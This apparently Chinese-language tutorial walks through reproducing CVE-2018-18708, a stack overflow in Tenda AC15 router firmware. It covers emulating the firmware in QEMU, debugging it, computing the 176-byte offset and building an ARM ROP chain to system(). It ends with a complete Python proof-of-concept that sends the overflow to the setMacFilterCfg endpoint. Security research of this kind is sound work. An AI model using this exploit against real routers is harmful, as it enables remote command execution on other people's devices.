# 栈溢出从复现到挖掘-CVE-2018-18708漏洞复现详解-先知社区

> **来源**: https://xz.aliyun.com/news/17913  
> **文章ID**: 17913

---

固件和poc可在github下载：<https://github.com/Snowleopard-bin/pwn/tree/master/IOT/Tenda_CVE-2018-16333>

首先查看程序开启的保护机制，可以发现没有开启PIE和canary保护



本文介绍如何启动quem用户级调试以及qemu系统级调试

## qemu用户级调试

使用binwalk解压固件

```
binwalk -Me US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin
```

后续所有指令均是进入到/\_US\_AC15V1.0BR\_V15.03.05.19\_multi\_TD01.bin.extracted/squashfs-root文件夹去执行的，该文件夹为固件核心文件夹

查看文件架构，发现是arm小端架构的

需要手动复制一下web目录，否则运行程序会出现访问404的情况

```
cp -rf ./webroot_ro/* ./webroot/
```

修改网卡，主要是增加网卡，需要先安装网卡管理工具，然后直接运行./net.sh即可

apt-get install bridge-utils

apt-get install uml-utilities

```
#!/bin/bash
#我的宿主机的上网的网卡为ens33，并且存在多个虚拟网卡
sudo ifconfig ens33 down    # 首先关闭宿主机网卡接口
sudo brctl addbr br0                     # 添加一座名为 br0 的网桥
sudo brctl addif br0 ens33        # 在 br0 中添加一个接口
sudo brctl stp br0 on            #打开生成树协议
sudo brctl setfd br0 2                  # 设置 br0 的转发延迟
sudo brctl sethello br0 1                # 设置 br0 的 hello 时间
sudo ifconfig br0 0.0.0.0 promisc up     # 启用 br0 接口
sudo ifconfig ens33 0.0.0.0 promisc up    # 启用网卡接口
sudo dhclient br0                        # 从 dhcp 服务器获得 br0 的 IP 地址
sudo tunctl -t tap0             # 创建一个 tap0 接口
sudo brctl addif br0 tap0                # 在虚拟网桥中增加一个 tap0 接口
sudo ifconfig tap0 0.0.0.0 promisc up    # 启用 tap0 接口
sudo ifconfig tap0 192.168.50.12/24 up        #为tap0分配ip地址
sudo ifconfig ens33 192.168.50.10/24 up        #为ens33分配ip地址
```



直接qemu启动的话，会报错，提示缺少文件夹，同时进程中断或一直等待，忘记保存图片了，大家可以自己试一下看看报错信息是什么样子的

首先手动创建文件夹

```
mkdir -p ./proc/sys/kernel
```

然后使用ida打开存放在/\_US\_AC15V1.0BR\_V15.03.05.19\_multi\_TD01.bin.extracted/squashfs-root/bin/httpd文件，搜索字符串 Welcome ，这一步是为了patch



双击进入到，在aYesWelovelinux函数这里按键盘 x 查看交叉引用



进入后，发现 里面是个条件判断语句



程序运行到第33行时，因为check\_network返回的值，程序进入了死循环(这里很奇怪，按理说我已经创建了br0的网卡，不应该死循环才对)。

在图视图中看一下，这里是一条BL指令，然后将函数的返回值从r0中，转移到r3中，为了使我们的程序能绕过此处的死循环，我们可以使用IDA提供的patch bytes功能将MOV R3, R0替换成MOV R3, #1，这样我们的程序就可以按照我们设想的流程进行下去，两处的逻辑相同，可使用同一种方法进行绕过



我们借助rasm2工具翻译汇编指令到机器指令，使用的指令如下。

```
sudo apt install radare2
rasm2 -a arm "mov r3,1"    #这个是我们需要替换的进制数
rasm2 -a arm "mov r3,r0"   #为了验证原来未改动的进制数是什么
```



IDA中Edit->Patch program->change byte更改鼠标指针处的字节。





然后，Edit->Patch program->Apply patches to input file将我们的更改保存进二进制文件 

安装qemu-user-static

```
sudo apt install qemu-user-static
```

安装完成后将qemu-arm-static赋值到文件系统目录squashfs-root下，启动httpd服务

```
cp $(which qemu-arm-static) ./qemu
mkdir -p ./proc/sys/kernel
cp -rf ./webroot_ro/* ./webroot/
sudo chroot ./ ./qemu ./bin/httpd
```



此处使用的是patch后的httpd文件



## qemu系统级调试

打包解包后的文件  
  
首先宿主机开启网卡，直接执行./net.sh即可

```
sudo tunctl -t tap1
sudo ifconfig tap0 192.168.50.11/24 up   #请根据实际情况修改
```

而后需要下载三个文件

```
wget https://people.debian.org/~aurel32/qemu/armhf/debian_wheezy_armhf_standard.qcow2
wget https://people.debian.org/~aurel32/qemu/armhf/initrd.img-3.2.0-4-vexpress
wget https://people.debian.org/~aurel32/qemu/armhf/vmlinuz-3.2.0-4-vexpress
```

执行下述文件 ./boot.sh

```
#!/bin/sh
sudo qemu-system-arm \
-M vexpress-a9 \
-kernel vmlinuz-3.2.0-4-vexpress \
-initrd initrd.img-3.2.0-4-vexpress \
-drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
-append "root=/dev/mmcblk0p2 console=ttyAMA0" \
-net nic -net tap,ifname=tap0,script=no,downscript=no \
-nographic
```

运行后，即可进入到模拟环境



在宿主机打包解包后的squashfs-root文件夹

```
sudo tar -zcvf  a15_0.tar.gz squashfs-root
```



qemu模拟器开启网卡(默认连接后的qemu里面的网卡是没有网络配置的，需要重新配置一下)

```
ifconfig eth0 192.168.50.12/24 up
```



上传压缩包到qemu模拟器

```
scp -r a15_0.tar.gz  root@192.168.50.12:/root/
```



进入到qemu模拟器解压缩

```
tar xzf a15_0.tar.gz 
cd squashfs-root/
chroot . sh
```



为qemu模拟器添加br0网卡

```
brctl addbr br0    #添加br0虚拟网卡
ifconfig br0 192.168.50.14/24 up
./bin/httpd
```





报错了，提示不能创建core\_pattern文件，是因为目录不存在，并且进程断开了

首先手动创建目录

```
mkdir -p ./proc/sys/kernel
```

httpd patch过程与上述一致，此处不进行赘述

将patch后的httpd文件上传到qemu模拟器替换

```
scp -r httpd  root@192.168.50.12:/root/
```



```
cp httpd squashfs-root/bin/httpd
```



重新运行后，运行成功

但是此时访问是访问不到的东西的，需要结束进程，然后重新执行

```
cp -rf ./webroot_ro/* ./webroot/
```



如果想通过qemu系统模式进行调试，请看以下内容

首先将gdbserver上传到qemu模拟器上，而后按照如下运行

<https://github.com/hugsy/gdb-static>

```
scp -r gdbserver-7.10.1-arm6v   root@192.168.50.12:/root/
```



```
cp gdbserver-7.10.1-arm6v squashfs-root/
chroot . sh
./gdbserver-7.10.1-arm6v 0.0.0.0:9999 ./bin/httpd
```

宿主机执行



返回宿主机，执行如下指令，即可远程连接

```
sudo apt install gdb-multiarch
gdb-multiarch -q ./bin/httpd
set arch arm 
tar rem 192.168.50.14:9999
```

笔者演示的时候，因为还没有安装pwndbg，所以看上去很奇怪，建议搭建先安装pwndbg再去运行

```
b *0x6775c
c
```



## CVE-2018-18708

参考：

<https://blog.xmcve.com/2022/10/08/CVE-2018-18708-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/>

<https://blog.csdn.net/m0_55368674/article/details/128939608>

### 漏洞点位分析

首先看漏洞点位，漏洞接口为setMacFilterCfg，参数为deviceList

打开ida，使用ida打开httpd，搜索strings字符串setMacFilterCfg



在函数aSetmacfiltercf上面点击x查找交叉引用





此时进入到函数体内，按一下tab查看伪代码，此函数实际为tenda接口函数sub\_42378()【formDefineTendDa()】



双击formSetMacFilterCfg进入到函数里面，此时可以看到，v18和v17通过sub\_2BA8C函数进行传参，该函数实际为websGetVar()函数，该函数通过web进行传参，传入的参数为macFilterType和deviceList



v19 = sub\_C10D0(v18); 查看此函数，此函数有数个条件分支



该函数是用来判断传入的macFilterType参数是否符合要求(macFilterType=black或者macFilterType=white），返回0则代表正确，会进入到下述代码的else判断，从而才能进入到v19 = sub\_C14DC(v18, v17);

```
if ( v19 )
  {
    memset(s2, 0, sizeof(s2));
    if ( GetValue("cgi_debug", s2) && !strcmp("on", (const char *)s2) )
    {
      n2 = 2;
      printf("%s[%s:%s:%d] %s", off_1018C8[0], "cgi", "formSetMacFilterCfg", 500, off_1018C4[0]);// "\x1B[0;31m"
      printf("set mac filter mode error!
\x1B[0m");
    }
  }
  else
  {
    v17 = sub_2BA8C(a1, "deviceList", &unk_F5124);
    v19 = sub_C14DC(v18, v17);
```

接下来进入到v19 = sub\_C14DC(v18, v17); v17是我们主要关注对象(v18实际上是macFilterType，因为上面我们分析过，该参数必须是white和black，写死了，并不能作为溢出点)，该参数为deviceList



这一大堆其实我们只需要关注s参数，这个参数对应的传入的deviceList参数

可以看到，主要用到这个参数的函数为sub\_C17A0(a1, s, v10);

进入到sub\_C17A0(a1, s, v10);函数体



该函数体调用的参数对应的是a2参数，我们发现，对应调用此参数的函数为sub\_C24C0(a2, s\_2);

首先我们可以看到，这个函数传入两个参数，第一个参数a2就是对应的deviceList，第二个s\_2是一个固定的缓冲区，且长度为176(0XB0)，这个就是我们后续用到的偏移量，后续会对这个偏移量进行验证



最后，进入到sub\_C24C0(a2, s\_2);函数体



最后的函数体，传入的deviceList对应参数为s参数;

src = strchr(s, 13); 首先src代表的是，在字符串s中寻找ascii码值为13，也就是“
”的指针，然后赋值给src，也就是src是写死的；

所以真正的溢出点为strcpy(src\_1 + 32, s); 该函数为字符串复制函数；

但是前面有一个判断语句if ( src )，所以在参数里也需要加上"
"；由此分析结束

由此得出结论：



### 偏移量分析

启动调试，这里需要换成pwndgb，因为pwndgb可以支持更多的指令，特别是计算偏移量。下述指令是在宿主机执行的，测试环境为qemu用户级别启动

```
# 第一个终端
sudo chroot ./ ./qemu -g 1234 ./bin/httpd

# 第二个终端
gdb-multiarch
target remote :1234
c
#第三个终端
python3 1.py #漏洞溢出测试脚本
```

```
import requests
from pwn import * 

url = "http://192.168.50.18/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1234111115"}
data = {"macFilterType": "white", "deviceList": b"\r"+ cyclic(500)}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

此时运行python测试脚本，即可看到pc寄存器的值为taab(因为没有任何断点，所以程序直接停在strcpy函数执行后溢出的位置)



执行即可查看PC寄存器的偏移量为176，pc寄存器的作用是：程序计数器，指向下一条要执行的指令地址。通过控制 pc，可以劫持程序流 ，这里主要是通过控制pc寄存器实现执行system函数

```
cyclic -l taab
```

​

### 利用链分析



通过上述指令，我们可以得知，程序开启了NX保护，无法直接执行栈中的shellcode，我们使用ROP技术来绕过NX。

#### **NX保护与ROP技术**

* **NX保护（No-eXecute）**：  
  现代操作系统通过NX保护禁止在栈、堆等内存区域执行代码，防止Shellcode直接运行。
* **ROP（Return-Oriented Programming）**：  
  通过复用程序中已有的代码片段（**Gadget**），将多个Gadget串联成链，实现攻击逻辑。

* **无需注入代码**：利用已有指令（如 pop, mov, blx）控制程序流。
* **绕过NX**：所有代码均来自合法内存区域（如libc）。

#### **ROP攻击核心思路**

##### **目标**

调用 system("/bin/sh") 启动交互式Shell。  
需解决两个问题：

1. **控制** **system** **函数地址**：跳转到libc中的 system 函数。
2. **传递参数**：将 "/bin/sh" 字符串地址传递给 r0 寄存器（ARM架构下第一个参数通过 r0 传递）。

##### **步骤**

1. **泄露libc基址**：通过漏洞泄露libc中某个函数（如 puts）的运行时地址，计算libc基址。
2. **计算** **system** **地址**：system地址 = libc基址 + system偏移。
3. **构造ROP链**：通过Gadget控制 r0 和 pc，触发 system 执行。

#### **Gadget作用与寄存器控制**

##### **Gadget解析**

**跳转到R3的gadget1\_addr**

```
ROPgadget --binary ./lib/libc.so.0 --only "pop"| grep r3
0x00018298 : pop {r3, pc}
```



* **0x00018298 : pop {r3, pc}**

* **功能**：从栈顶弹出两个值，分别存入 r3 和 pc。( 将 system 地址存入 r3)
* **用途**：控制 r3 寄存器的值，并直接跳转到 pc 指向的地址。

**找到一个可以控制R0的gadget2\_addr**

```
ROPgadget --binary ./lib/libc.so.0  | grep "mov r0, sp"
0x00040cb8 : mov r0, sp ; blx r3
```



* **0x00040cb8 : mov r0, sp ; blx r3**

* **功能**：将栈指针 sp 的值赋给 r0，然后跳转到 r3 寄存器指向的地址执行。
* **用途**：用于将栈顶数据（如命令字符串）传递给 r0（system 函数的第一个参数）。

##### **关键寄存器作用**

* **r0**：ARM架构中用于传递函数第一个参数（如 system("/bin/sh") 中的 "/bin/sh" 地址）。
* **r3**：通用寄存器，此处用于暂存 system 函数地址。
* **pc**：程序计数器，指向下一条要执行的指令地址。通过控制 pc，可以劫持程序流。

##### **CPSR的T位**

* **作用**：CPSR寄存器的T位（Thumb模式标志位）决定CPU执行模式：

* **T=0**：执行ARM指令（4字节对齐）。
* **T=1**：执行Thumb指令（2字节对齐）。

* **影响**：

* 若跳转到Thumb指令（如 system 函数是Thumb模式），地址需为奇数（如 0xdeadbeef | 1）。
* 例如：system 地址为 0x5A270（Thumb模式），则实际跳转地址应为 0x5A271。

```
p/t $cpsr
```



1100 0000 0000 0000 0000 0000 0010 0000 ，从右向左第五组0000即为T位，此时是0，所以不需要对system地址增加

##### **system基址计算**

计算system函数偏移量

```
readelf -s ./lib/libc.so.0 |grep system

system_addr = libc_base + 0x5A270
```



##### **lib基质计算**

由于qemu-user模拟(使用qemu启动，即为user模拟，除此外还有个qemu系统级模拟)不支持vmmap指令打印内存信息，官方给出了说明：<https://github.com/pwndbg/pwndbg/blob/dev/pwndbg/commands/vmmap.py>。

所以我们获取puts函数泄露libc运行时的地址、libc.so.0中的puts函数的偏移量，从而得到libc基址

libc基址=运行时地址−IDA偏移量

由于QEMU+GDB调试时默认关闭了ASLR（地址空间随机化），所以libc每次加载到内存的基址相同（这也是为什么选择libc.so.0文件的原因）。

对正在运行的httpd文件的puts进行断点，该地址位于进程内存空间中，指向加载到内存中的libc库中的 puts 函数 ，得到运行时地址为0x3fdd1cd4

```
sudo chroot ./ ./qemu -g 1234 ./bin/httpd

gdb-multiarch
target remote :1234
file ./bin/httpd 
b puts
continue
```





使用ida打开libc.so.0文件，查看puts函数的IDA偏移量为0x35CD4(**相对偏移量**。该偏移量是静态的，与libc基址无关。)



所以 libc基址=运行时地址−IDA偏移量=0x3fdd1cd4 - 0x35cd4 = 0x3fd9c000

```
libc_base = 0x3fd9c000
```

##### **payload流程如下**

最终 payload格式为:[offset, gadget1, system\_addr, gadget2, cmd]

```
payload = 
    b'A' * 溢出偏移      # 填充至返回地址前
    + p32(gadget1_addr) # pop {r3, pc}
    + p32(system_addr)  # 存入 r3
    + p32(gadget2_addr) # 跳转到 gadget2
    + b"/bin/sh\x00"    # 字符串参数（通过 r0 传递）
```

##### **执行流程**

1. **覆盖返回地址**：  
   栈溢出后，返回地址被覆盖为 gadget1 地址。
2. **执行** **gadget1**：

```
armasm
```

```
pop {r3, pc}  ; r3 = system_addr, pc = gadget2_addr
```

* **执行** **gadget2**：

```
armasm
```

```
mov r0, sp     ; r0 = 当前栈顶（指向 "/bin/sh"）
blx r3         ; 跳转到 system(r0)
```

* **执行** **system("/bin/sh")**：  
  启动Shell。

备注：

一、关于CPSR寄存器的T位问题

1. ARM架构的指令模式特性：

* ARM处理器有两种指令集状态：ARM（32位指令）和Thumb（16/32位混合指令）
* CPSR寄存器的第5位（T位）控制当前模式：  
  T=0 → ARM模式（指令地址对齐到4字节）  
  T=1 → Thumb模式（指令地址对齐到2字节）

1. 关键机制：  
   当通过LDR/STACK POP等操作修改PC寄存器时：

* PC寄存器写入的地址值最低位（LSB）会被复制到CPSR的T位
* 实际PC值 = 写入值 & 0xFFFFFFFE（ARM模式）或 & 0xFFFFFFFC（Thumb）

1. 漏洞利用中的处理：  
   假设我们想跳转到0x08041234执行Thumb指令：

* 必须构造地址为0x08041234 + 1 = 0x08041235
* 当该值被加载到PC时：  
  PC = 0x08041234（自动清除LSB）  
  CPSR.T = 1（进入Thumb模式）

整理后我们的POC为：

```
from pwn import *
import requests


cmd = b"echo PWN!"
libc_base = 0x3fd9c000
system_addr = libc_base + 0x5A270
gadget1_addr = libc_base + 0x18298
gadget2_addr = libc_base + 0x40cb8

payload = b'a'*176
payload+= p32(gadget1_addr) + p32(system_addr) + p32(gadget2_addr) + cmd

url = "http://192.168.50.18/goform/setMacFilterCfg"

cookie = {"Cookie":"password=asdasddsada"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)

print(response.text)
```


